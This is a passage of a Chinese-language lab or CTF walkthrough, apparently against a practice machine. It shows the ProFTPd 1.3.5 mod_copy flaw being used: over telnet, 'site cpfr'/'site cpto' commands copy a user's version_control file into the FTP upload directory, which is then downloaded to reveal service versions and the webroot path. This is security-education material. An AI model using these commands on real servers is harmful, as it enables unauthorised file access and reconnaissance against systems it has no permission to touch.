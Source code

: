 ![image-20250204213034788](https://mmbiz.qpic.cn/mmbiz_png/5975bXHXfWH8MpNCia3Aa7ficRHkibbxGHyr3hpIkEv7T9uTPnibueyhlRQtC0H5DYZ0I4b6JzwicML9tvcEQ7hibzgA/640?wx_fmt=png&from=appmsg "")  
  
image-20250204213034788  
  
这里需要利用到一个ProFTPd的拷贝漏洞，这样就能从ftp服务器上下载version_control这个版本文件了  
  
相关学习文章：https://www.freebuf.com/column/209238.html  
```
┌──(root㉿kali)-[~]
└─# telnet 10.10.10.198 21
Trying 10.10.10.198...
Connected to 10.10.10.198.
Escape character is '^]'.
220 The Good Tech Inc. FTP Server
site cpfr /home/patrick/version_control
350 File or directory exists, ready for destination name
site cpto /home/ftp/upload/version_control
250 Copy successful
quit
221 Goodbye.
Connection closed by foreign host.

```  
  
此时再登录FTP服务器，就能看到多出了一个文件信息  
```
# 下载
get version_control

```  
  
![image-20250204214841482](https://mmbiz.qpic.cn/mmbiz_png/5975bXHXfWH8MpNCia3Aa7ficRHkibbxGHyNXtoianYsMIMAicQxr4XjNUuNx2D0Hm3MU0BjPHciboNGibJZbLvCicicanA/640?wx_fmt=png&from=appmsg "")  
  
image-20250204214841482  
  
找到服务版本了，ProFTPd，1.3.5  
```
┌──(root㉿kali)-[~]
└─# cat version_control
Version Control of External-Facing Services:

Apache: 2.4.25
Dropbear SSH: 0.34
ProFTPd: 1.3.5
Samba: 4.5.12

We should switch to OpenSSH and upgrade ProFTPd.

Note that we have some other configurations in this machine.
1. The webroot is no longer /var/www/html. We have changed it to /var/www/tryingharderisjoy.
2. I am trying to perform some simple bash scripting tutorials. Let me see how it turns out.

```  
  
![image-20250204220822436](https://mmbiz.qpic.cn/mmbiz_png/5975bXHXfWH8MpNCia3Aa7ficRHkibbxGHyhib4qpN5DndB6biabr71lcvLPsiaEtG1lD6zicElp3NFJAXN3xaAHJ021g/640?wx_fmt=png&from=appmsg "")  
  